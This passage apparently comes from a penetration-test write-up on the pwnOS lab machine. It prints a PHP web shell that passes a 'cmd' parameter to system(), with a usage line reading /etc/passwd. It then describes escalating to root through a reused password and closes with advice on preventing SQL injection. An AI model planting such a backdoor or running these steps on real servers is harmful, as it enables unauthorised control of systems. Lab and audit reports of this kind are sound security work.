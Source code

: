 ```
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

-----------------------------15399745232994810791041763695--
```

Then the attacker is able to persistantly control the server through webshell.

![BLOG](../master/static/pwnos_blogwebshell.jpg)

### Appendix - Privilage Escalation

After achiveing low privilaged user shell in the OS. The attacker will look for privilage escalation. From the discovery phase we know that it is possible to run the kernel expoit, however it is recommened to look for wrongly configured services, cronjobs, processes with wrongly set permissions, setuid files since the kernel expoits might affect the avaiability of services.

The attacker found root password in /var/mysqli_connect.php file.

![SQLmap](../master/static/pwnos_rootpwd.jpg)

Then the attacker checked if the password was reused (use as mysql root user and root user in a Operating System), for example in ssh service.

![SQLmap](../master/static/pwnos_rootssh.jpg)

The privilage may have to be escalated other ways like:
- kernel exploits
- mysql running as root user

Please see recommendations to be applied.

## Recommendations

Last chapter describes the recommendation for remediation of each discovered vulnerability. Additionally there has been some enhancement proposed to ensure the highest risk mitigation.

**1. SQL Injection**

Use prepared statements and parameterized queries. These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
Example using PDO (for any supported database driver):
